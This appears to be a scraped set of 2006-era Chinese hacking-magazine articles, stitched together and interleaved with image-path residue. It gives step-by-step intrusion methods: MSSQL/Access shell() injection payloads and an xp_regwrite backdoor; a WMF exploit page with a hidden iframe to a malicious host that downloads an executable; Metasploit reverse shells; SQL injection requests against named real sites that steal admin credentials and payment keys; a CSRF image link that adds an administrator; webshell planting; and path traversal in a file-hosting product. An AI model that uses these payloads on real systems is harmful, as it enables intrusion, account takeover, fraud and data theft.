

### 巧留后门

我们的运用将会很窄，真的：一来我们需要的权限很高，起码要到能够修改注册表的权限，默认是Admin和LocalSystem；二来是我们将如何修改注册表，远程吗？没门的。所以我们只好将其当作一个后门用……最起码可以在外部执行一些小小的命令。

比如我们在渗透某个站点的时候拿到了最高权限，并且修改了这个SandBoxMode之后，我们被管理员扫地出门了。那么，在首页的某个地方依旧存在这个Select的注入点……

```sql
InjectionURL' and 0<>(select shell('cmd.exe /c net user > c:\inetpub\wwwroot\kevin4f.txt'))%00
```

这样我们就可以一步一步地重新把服务器拿下。

### 远程攻击

这将是一个很有意思的话题。首先我们必须有修改注册表的权限，二是有修改注册表的条件，三是可以执行SandboxMode的环境，必须三样同时满足才行，到底是在什么情况下呢？

我们知道，我们平时在其它安全杂志上看到的文章，很多情况下就是在一个以SA连接的InjectionURL中苦苦挣扎……如果去掉了扩展或者将扩展需要的DLL移走，我们将一无所用。那么聪明的你是否想到了其它方法？我们知道，只有SA的权限才有可能去打开另外一个Access的连接；当我们满足了打开Access的条件的同时，我们也满足了修改注册表的条件和权限，因为MSSQL有一个名为xp_regwrite的扩展，它的作用是修改注册表的值。

```sql
exec master.dbo.xp_regwrite Root_Key,SubKey,Value_Type,Value
```

那我们只要将SandBoxMode修改为0或者1就成功了，然后则是MSSQL的OpenRowSet函数……关键的问题是如何寻找这个Access数据库呢？关于这个问题我想了很久，一开始是想利用目录遍历来查询数据库的位置……后来我想到了系统本来就有2-3个现存的数据库，它们的位置在%windir%\system32\ias\ias.mdb或者%windir%\system32\ias\dnary.mdb。

```sql
InjectionURL';Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0','Database=c:\winnt\system32\ias\ias.mdb','select shell(''inet_user kevin 1986 /ad'')');--
```

这样，我们就执行了命令了哦！而且继承的是MSSQL的LocalService的System权限。

### asp.dll提权方法

因为asp.dll一般存放在c:\winnt\system32\inetsrv\asp.dll下（不同系统存放位置不一定相同），我们现在加进去下面的代码：

```bash
cscript adsutil.vbs set /W3SVC/InProcessIsapiApps "C:\WINNT\system32\idq.dll" "C:\WINNT\system32\inetsrv\httpext.dll" "C:\WINNT\system32\inetsrv\httpodbc.dll" "C:\WINNT\system32\inetsrv\ssinc.dll" "C:\WINNT\system32\msw3prt.dll" "c:\winnt\system32\inetsrv\asp.dll"
```

然后使用cscript adsutil.vbs get /W3SVC/InProcessIsapiApps来查看是不是加进去了。注意上面用法中的get和set命令，一个是查看，一个是设置……如果你是一个管理员，你的系统被人用这招把ASP提升为system权限了，此时的防范方法就是把asp.dll踢出特权一族，也就是再次用set命令覆盖掉上面的那些内容。

WTF 2006年年初，一个较高危害等级的漏洞就急不可待地爆发了。仿佛是对去年一些无关痛痒小漏洞的嘲讽，这次漏洞将把从98到Windows Vista几乎全线产品拖入深渊！WMF格式图片代码执行漏洞将再次在网络上引起一场腥风血雨。

适合读者：入侵爱好者，安全研究者  
前置知识：无



## VIP会员学习成果展

## Windows图形渲染引擎  
### WMF格式代码执行漏洞

文/图 Tonbook（奥汀vip）

Microsoft Windows是世界上最流行的操作系统。最近，在Windows的WMF图形渲染引擎中发现了远程代码执行漏洞。如果用户访问了恶意的WMF文件，在引擎解析该文件时就会在用户系统上以用户权限执行任意代码。最初我知道这个漏洞是在国外看见的一个漏洞报告：

> I was "navigating" on a certain website... It was a succession of hidden `<frames>` ... targeting to: `http://69.50.183.XX/xpl.wmf` ... This WMF will download `cj.exe` and run it ...

老外的报告很清楚，浏览网页的时候，会浏览到一个xpl.wmf文件，有漏洞的计算机将会执行下载cj.exe文件。我当时打过最新的补丁，就过去看了他提到的站点，把程序下回来：

```html
<Iframe src="http://69.50.183.XX/xpl.wmf" width="0" height="0" scrolling="no" frameborder="0"></iframe>
```

这个漏洞实在是太强了，就算你鼠标碰到它都能执行。我事先写了个cj.exe代替木马，在IE浏览 `http://127.0.0.1/m.html` 会迅速地打开图片查看器，如图1所示，然后关闭。


然后下载并打开我放置在WEB服务器上的EXE，如图2所示。



下面我们来利用这个漏洞。先下载metasploit，Windows版下载地址是 `http://metasploit.com/tools/framework-2.5.exe`，UNIX版下载地址是 `http://metasploit.com/tools/framework-2.5.tar.gz`。

使用方法我先说一下，安装完后在程序菜单中运行MSFUpdate，然后会出现YES OR NO，输入YES即可。如果无法联网升级，就把我提供的文件 `ie_xp_pfv_metafile.pm` 复制到 `c:\Program Files\Metasploit Framework\home\framework\exploits` 目录下面。

现在开始演示这个漏洞，程序菜单运行MSFWeb，会出现一个命令行，上面会显示 `http://127.0.0.1:55555`，这说明执行成功。打开IE输入该地址会出现Web页面……如图3所示。



我们点击进入，页面里有这个漏洞的描述，有兴趣可以看看。如图4所示。选Select Target最下面的一行，进入后我们可以看……到有几个选项，但是只有2个我们可以用，如图5所示。

如果受害者主机用户权限够大，那可以直接加个管理员，如图9所示。当然我不提倡这样做。用户权限不够，能做的有限。

Win32_reverse 返回一个 CMD 的 Shell，采用反弹连接方式，如图6所示。

Win32_exec 是执行命令的用法。如果你想让目标机器浏览你的页面后直接执行一些命令，可以用这个。在 CMD 中直接输入你要执行的命令，如图10所示。使用 `&&` 可以连接多条命令语句。

进入 Win32_reverse 选项后，看见几个可以填空的地方：HTTPHOST，HTTPPORT，LHOST，LPORT。简单说一下用法：HTTPHOST 里面填本机 IP，如果不填的话，就会使用 LHOST 里面的 IP；HTTPPORT 是本机开放一个 HTTP 服务的端口，自己伪装为 HTTP 服务器，端口自己可以改。LHOST 和 LPORT 就没有要改的。用的时候先关闭防火墙或者开放防火墙上这几个端口。当有人访问这个 HTTP 服务器的时候，就会有明显的变化，如图7所示。

还记得命令行下执行文件命令吗？现在你可是有个 cmd 命令的功能（FTP、TFTP、ECHO 命令还不都是任你写），用 VBS 写个下载执行文件的代码不是太难吧，VBS 可以运行写的。另外，把生成的文件改名为 jpg，一样能用。

看见没，出现了 Session 1，如果有 N 个人就有 N 个 Session。当然你可以先把图片下载回来放到你的肉鸡网站上，并且开着 metasploit，这样就会有受害者的机器连接你。进入 session 1，输入一下 IPCONFIG，如图8所示。

## 找回丢失 MySQL 的 Root 用户密码

如果你忘记了 MySQL 的 Root 密码，可以尝试使用以下的方法来重新设置：

- 1. Kill 掉系统里的 MySQL 进程。
- 2. 用以下命令启动 MySQL，以不检查权限的方式启动：

```bash
mysqld_safe --skip-grant-tables &
```

- 3. 用空密码方式使用 Root 用户登录 MySQL：

```bash
mysql -u root
```

- 4. 修改 Root 用户的密码：

```sql
mysql> update mysql.user set password=PASSWORD('新密码') where User='root';
mysql> flush privileges;
mysql> quit
```

适合读者：编程爱好者，入侵爱好者

前置知识：无

## 动易2005的某最新漏洞

动易2005 SP2版在安全方面确实下了不少功夫，不仅修补了公布的所有漏洞，而且从各个方面增强了程序的健壮性，给我的入侵带来了莫大的阻碍。下文会给大家慢慢道来。对于不了解动易系统的兄弟们，先唠嗑几句：动易系统是基于组件的 ASP 系统，最突出的特点是将最核心最主要的程序代码编译成了 DLL，对我们这些程序员来说，完全是不透明的；在这里我同时也会介绍一些对这件非开源系统的漏洞发掘技术。

对于 ASP 系统，没有现成的漏洞发掘工具（在这里强烈鼓励一些牛人开发脚本系统漏洞发掘工具，提升脚本系统的健壮性），使用分支预测的软件测试方法又过于烦琐；所以我们就从一般程序员的弱肋下手。先举个例子：很多程序员在使用 SQL 语言时为了编程方便，常常使用 SQL 语言中的 in 关键字，比如我们提交的变量 id 是个集合，其值是 1,2,3，使用的 SQL 语句是“select * from username where id in (1,2,3)”。但是这样编写使我们对 id 变量的过滤变得力不从心，至少我们不能直接用 CInt、isnumeric 等 ASP 内置函数。好了，我们就从这里下手：注册一个账号，登录用户控制面板，随便转了转，找到“个人作品集管理|管理个人作品集”，如图1所示。

```http
Referer: http://172.18.26.75/User/User_Author.asp?Action=Manage&Passed=1
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 172.18.26.75
Content-Length: 105
Connection: Keep-Alive
Cache-Control: no-cache
COOKIE: ASPSESSIONID=...; LastPassword=...; UserName=admin ...
AuthorID=2&AuthorID=1&chkAll=checkbox&submit=...&Action=Del
```

大家注意了吗？我们提交的 AuthorID 为 {1,2}，在这里我们修改一下，检测是否存在过滤不严的问题。在这里我选用了“--”。一方面这个 SQL 中的注释符无论是 MySQL 版还是 Access 版，都会使程序发生运行错误；另一方面一般程序过滤都忽略了这个字符。修改第二个 AuthorID 变量和 Content-Length 后，用 NC 提交上去看看返回了什么，如图2所示。

在这里我们提交的变量是个集合，先申请个人作品集，然后全部选定，删除选定的作品集。使用 WSE 抓包，内容如下：

```http
POST /User/User_Author.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, application/x-shockwave-flash, */*
```

看来正中要害，程序对 AuthorID 变量处理确实存在问题。好了，我们让它慢慢浮出水面，先提交“AuthorID=1);--”看能不能正常返回，如图3所示。

图3

发现被过滤，现在可以肯定不能多句执行。但是不要放弃，既然不能多句执行，那我们就玩另类的，在 SQL 中 in 后括号中的东西必须是整形的，如果不是，MSSQL 会好心地给我们转换！如果转换不能成功程序就会报错，先看看对 AuthorID 到底过滤了哪些字符，如图4所示。

图4

看到这里不能不晕了：空格、% ，后来证明还有 `/**/`，我们还能用什么来分割 SQL 语句的关键字？只能使用 `@@version` 刺探环境了。本当我打算放弃的时候，灵光一现，想到了“+”字符，经过解码后即为空格。奇迹的是程序并没有过滤这个字符，真是柳暗花明又一村。废话少说，写个程序利用一下：先按上面的方法申请个人文集，然后删除抓包，如图5所示。

图5

再将包保存到本地的一个文件，我保存为“E:\send.txt”，内容如下：

```http
POST /User/User_Author.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, application/x-shockwave-flash, */*
Referer: http://www.exam8.com/User/User_Author.asp?Action=Manage&Passed=1
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.exam8.com
Content-Length: 107
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ...

AuthorID=2i0&AuthorID=20&chkAll=checkbox&submit1=...&Action=Del
```

打开工具，各个变量做以下设置，如图6所示。

图6

然后运行一下，看看返回结果，如图7所示。

图7

关键内容如下：

同样我们可以利用如下的变量进行环境刺探，如图8所示。

数据库中有几个比较重要的信息，`Pe_config` 表中的 `payonlinekey` 字段，获得它我们可以在线免费购物；还有 `Pe_admin` 表中的 `Username`、`Password`、`Rndpassword`，获取这些我们可以进行 Cookie 欺骗进入后台管理；还有 `Pe_config` 表中的 `mailserverusername`、`mailserverpassword`，可以得到管理员的敏感信息。关于其它一些表中的字段，大家可以下载整套系统看一下。

有些系统在用户控制面板没有个人作品集管理，如对华夏黑客同盟测试的时候就是这种情况，我们可以对 `send.txt` 做一下修改。

```http
POST /User/User_Author.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, application/x-shockwave-flash, */*
Referer: http://www.77169.org/User/User_Author.asp?Action=Manage&Passed=1
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.77169.org
Content-Length: 107
Connection: Keep-Alive
Cache-Control: no-cache
COOKIE: 目标站的COOKIE信息
AuthorID=2l&AuthorID=20&chkAll=checkbox&submit1=...&Action=Del
```

修改完毕后，我们可以暴出它的数据库，如图9所示。

得到了一点刺激的东西，如图10所示。

然后就可以在线支付了，如图11所示。

哈哈，是不是很“刺激”？由于此系统并非在线即时销售系统，所以不会给网站带来实际上资金损失，不过还是建议谨慎使用！

这里要说明一下，在动易2005 SP2系统中增加了后台管理认证码，开启后后台管理界面如下，如图12所示。这个值是定义在程序中的，没有写到数据库中，不要担心，默认情况下此功能是关闭的。

图12

形同虚设。关于 Cookie 欺骗进后台，本人搞了半天都没有成功，不知什么原因。仔细试了好几遍，测试了好几遍还是不能成功，最后迫不得已才放弃，如果你测试成功了，记得一定要告诉大家。

Cookie 欺骗进不了后台，只能另辟新径。在本机测试，使用管理员账号登录后台发现了网站留言审核项目。网站发表的留言只能在后台审核，第一想到的是看留言程序是否存在跨站脚本漏洞，遗憾的是不存在。没关系，我们仅使用 `` 或者 BB 代码中的 `[img]` 标签就能实现后台操作的跨站攻击了，方法如下：

首先注册个账号进入 `http://www.target.com/GuestBook/Guest_Write.asp?KindID=0&KindName=发表留言`，为了增加成功的机率，你的留言主题一定要极具诱惑力，要不管理员登录后台后看都不看就审核通过或直接删除了，就白忙活了。留言内容随意，但一定要插入如下的图片，如图13所示。

图13

```text
http://www.target.com/admin/Admin_Admin.asp?AdminName=llikz&username=llikz&Password=111111&PwdConfirm=111111&Purview=1&Action=SaveAdd
```

这样只要后台管理员查看这条留言，就会给我们添加一个账号为 llikz 密码为 111111 的前台账号和账号为 llikz 的后台管理员账号。注意了，前台账号 llikz 你一定要预先注册好，要不添加会失败的。步骤就这么简单，比 Cookie 欺骗容易多了吧？

经常回复，于是做好跨站添加留言后剩下的就是耐心等待。到了晚上发现管理员真的回复了，真是个勤劳的管理员啊！试着登录后台看看，如图14所示。

图14

登录成功！剩下的工作就是上传 Shell 了。由于动易2005 SP2版本修补了修改上传类型和向配置文件 `RootClass_Menu_Config.asp` 写入 ASP 代码的漏洞，我们只能寻找新的途径。本人找到的方法如下：打开系统设置下的网站频道设置，点击文章中心的修改，进入后有两个地方需要修改一下配置。

一个是生成 HTML 方式，改为全部生成，如图15所示。一个是内容页的扩展名改为 ASP，然后保存。

图15

进入系统设置的网站信息配置，在版权信息里加上你的 ASP 木马代码就可以了，记得不要忘记保存。最后打开文章中心管理→文章生成→所有已审核的文章，随便选择一个文件点击生成选定的文件，这时返回：

```text
正在生成文章页面……请稍候！在此过程中请勿刷新此页面！

总共需要生成1篇文章
* 成功生成第1篇文章 /Article/200512/4.asp
生成文章结束！共生成了1篇文章的1个文件！
```

这个页面就是我们的 Shell 了，如图16所示。配置好自己的 WebShell 后不要忘记把刚才修改的后台设置再恢复过来。

图16

到这里，已经详细介绍了从闯入后台到上传 Shell 的流程，只要大家在实践中灵活变通，一定会发现比上述更好的方法！

## 保护模块保护谁——桃源网盘新漏洞

文/图：玫瑰下的烂泥

WTF：本以为桃源网络硬盘在去年历经多种漏洞的侵袭，现在已经能保证用户的安全使用了。然而还没安稳几天，却又爆出新漏洞了。适合读者：网站管理人员、网站程序人员。前置知识：NC 使用。

近期本人接手了研究“桃源网络硬盘安全问题”的相关任务。以下的操作是在最新的“桃源网络硬盘 v3.1 个人版（免费版本）”中进行的，因此下面分析出来的漏洞可能只对以上版本有用，不过商业版同免费版的区别仅仅在于插件支持上，所以推断商业版同样存在此种问题。

### 保护系统存缺陷

先回顾一下，如果大家是黑防的忠实读者，就会知道黑防在去年有几篇漏洞文章是针对桃源网盘的，它存在目录跳转容易导致网站被攻破的问题。官方的处理方法是只要发现有恶意的数据输入或用户目录中存在非法的“ASPX”就将其删除，这只能说是治标不治本。

研究发现，问题出现在“文本文档的在线编辑”模块。我们可以在浏览器的地址栏中看到在线编辑的 URL，当我在 URL 中“Path”变量上重写一个目录跳转符（“/../”），然后用 GET 的方式发出请求，程序就会实施“大扫除”行动，如图1所示。

图1

注意图1中浏览器地址中 URL 选定的部分，它原本是“/”，现在我把它改成“/../”然后回车，如图2、图3所示。页面先提示无权修改文件、无权浏览目录，接着就是网站访问出错，目录上的文件消失了一大半，如图4、图5所示。其中图5是“桃源网络硬盘”的网站程序根目录。

图2

图3

图4

图5

从图5中可以发现目录上所有的“ASPX”和“ASP”文件都被“桃源网络硬盘”的保护模块删除了，好玩吧？！

## 僵尸还魂写后门

新版本的功能“改名”又引发了不少问题，下面我把分析到的问题一一解释。

### 1. 空间轻易转移

在文件改名过程中，“/”并没有过滤，所以文件改名为“/b”等以“/”开头的字串，就会让文件转移到网站的根目录，如图6所示。



这个文件的空间转移是不是很有趣呢？不过这有趣的现象与网络安全没有什么关系，至少不可以删改文件，不可以上传文件。事实上，它与我下面的操作有很多关系，至少让我们了解到一些有用的信息。因为“安全”就是这样从很多方面去想，不管有没有价值也要想。

### 2. 文件来回挪移

正因为有了之前问题的存在，让我有了让文件在用户文件目录与网站程序目录之间移动的想法。这里请出两大兵器：“NC”和“WSockExpert”。先利用“WSockExpert”把改名的报文捕获下来，如图7所示。



将其中以“POST”提交的报文抽取出来保存为一个文件，然后修改“POST”数据里的源文件名，如图8、图9、图10所示。







要注意的是图10中选择的部分，它原本是“%2F.”+源文件名全称+“%7C”+要修改的文件名（并不包含扩展名），修改后用 NC 提交，如图11所示。



在用 NC 提交时会出现错误提示“详细情况：线程正被中止”。这只是程序的逻辑顺序有问题，并不影响使用。用 NC 提交后会把网站程序根目录中的“About.aspx”转移到我的用户文件目录下，如图12所示。

